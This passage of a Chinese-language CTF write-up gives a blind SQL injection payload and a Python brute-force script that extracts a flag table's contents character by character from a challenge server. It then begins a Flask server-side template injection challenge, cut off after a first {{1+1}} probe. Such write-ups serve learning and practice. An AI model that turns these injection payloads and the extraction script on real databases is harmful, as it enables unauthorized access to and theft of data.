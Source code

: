 于是可以尝试得到flag:<br>
payload:

```
2-(select (select 1,0x01)&gt;(select * from f1ag_1s_h3r3_hhhhh limit 1))
```

最后附上脚本：

```
import requests


def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

url = "http://86ad8e55dd3244b488826b4cf0924ce4b5a885066be143a0.changame.ichunqiu.com/index.php"
headers = `{`"Content-Type": "application/x-www-form-urlencoded"`}`


flag=''


for j in range(1,100):
    for i in range(32,126):
        print i
        payload = "id=2-(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),"+str(j)+",1))&lt;"+str(i)+")"
        # a = str_to_hex(chr(i))
        # payload = "id=2-(select (select 1,0x"+str_to_hex(flag)+a+")&gt;(select * from f1ag_1s_h3r3_hhhhh limit 1))"
        res = requests.post(url=url,data=payload,headers=headers)
        # print payload
        # print res.text
        # exit()
        if "Hello Nu1L" in res.text:
                flag += chr(i-1)
                print flag
                break
```



## DAY3

### <a class="reference-link" name="Flaskapp"></a>Flaskapp

[![](https://s2.ax1x.com/2020/02/23/33i3p4.png)](https://s2.ax1x.com/2020/02/23/33i3p4.png)

这是一个base64的加密解密网站

猜测试ssti

`$`{``{`1+1`}``}``将其base64编码 然后再网站上用解密工具解码得到：
